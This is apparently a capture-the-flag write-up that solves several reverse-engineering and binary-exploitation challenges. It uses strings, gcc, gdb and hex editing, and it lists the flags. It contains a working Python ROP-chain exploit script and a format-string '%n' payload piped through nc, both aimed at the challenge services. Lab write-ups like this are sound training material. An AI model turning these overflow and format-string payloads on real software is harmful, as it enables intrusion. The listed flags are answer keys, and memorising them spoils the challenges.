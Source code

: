 # BE01
```
Download the file at https://ggcs-files.allyourbases.co/be01.zip and find a way to get the flag from the program.
```
Simply running strings on the file will get us our flag!

![Simple strings](/images/BE01.png)

Flag: sTriNGS-r-EZ-7819

# BE02
```
Download the file at https://ggcs-files.allyourbases.co/be02.zip and find out what the program does to get the flag.
```
We are given some c code, so we can compile this all with `gcc`. Command used is:`gcc program.c -o program`.
And then simply running the generated ELF gives us the flag.

![Using gcc](/images/BE02.png)

Flag: c0mpILE-tIME_1822

# BM01
```
Download the file at https://ggcs-files.allyourbases.co/bm01.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bm01.allyourbases.co port 8134 to get the flag.
```

We can use `gdb program` to figure out what the program is doing.
We use `info func` to view functions, and `disas main` to see the assembly.
There is an interesting line which is
```
0x000006d6 <+153>:   cmp    BYTE PTR [ebp-0x9],0x62
```
This compares the byte at `ebp-0x9` with `0x62`, which is "b".
After a bit of experimentation, I was able to get the sample flag on local by adding 50 * "a" and then adding a "b" on the end.
We can do the same on the remote to get the flag.

# BH01
```
Download the file at https://ggcs-files.allyourbases.co/bh01.zip and find a way to extract the flag.

Note that the flag must be submitted as 'normal' text which you might read in a book.
```
If we open the file up in a hex editor, we see the word flag, but there doesn't appear to be anything after it at first.
However, by accident, I figured that if you try copy the hex into a text file, it appears to be some text in English, however it was upside down.
We convert this to normal English, keeping the capitalization to get the flag.

Flag: inSIDEoUT

# BH02
```
Download the files at https://ggcs-files.allyourbases.co/bh02.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bh02.allyourbases.co port 8133 to get the flag.
```
Again, we open this up in `gdb`
We can see again, there is that line that compares bytes.
```
   0x00000744 <+215>:   cmp    BYTE PTR [ebp-0x9],0x66
```
0x66 is "f" in ASCII, but I wasn't able to get the placeholder flag, so I looked again.
It appears that we also need to add a ":)" before our f

# BH03
```
Access the network service at ggcs-bh03.allyourbases.co port 1337 and follow the instructions it gives you to obtain the flag.
```
When we connect with `nc ggcs-bh03.allyourbases.co 1337`, we can see it wants us to call 3 functions.
This is a simple ROPchain task, where we overwrite the EIP register 3 times. 
To call the functions, we need padding so that we can overwrite things, and then we include the addresses of the functions.
I wrote a script to do this for me.
```
import socket
import struct
p32 = lambda x : struct.pack('I', x)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('ggcs-bh03.allyourbases.co', 1337))
print(s.recv(1024))
a = s.recv(1024)
b = a.split("\n")
x = int((b[4].split(": "))[1],16)
y = int((b[3].split(": "))[1],16)
z = int((b[2].split(": "))[1],16)
payload = "A" * 45 + p32(x) + p32(y) + p32(z) + "\n"
print(payload)
s.send(payload)
print(s.recv(1024))
print(s.recv(1024))
print(s.recv(1024))
```
Running the script gives us 3 strings.
```
PTi0xOTkw
UVE9mdW5jVGl
RmxhZzogUmV
```
If we put these in reverse order and base64 decode, we get the flag.

Flag: ReTTOfuncTiON-1990

# BX01
```
Access the network service at ggcs-bx01.allyourbases.co port 9171 and find a way to exploit it to get the flag.
```
For this challenge, we need to get the value from 1337 to 1. 
We can do this with a format string, specifically `%n`
Doing it once on the remote by sending `a%n` gives us the output
```
Object validated, contents is 'Rig'
```
So we just need to do this multiple times to get the flag.
The number ended up being 14 times.
```
python -c "print 'A'+'%n'*14" | nc ggcs-bx01.allyourbases.co 9171
```

Flag: tRUNkated-EveRYTHinG-6761
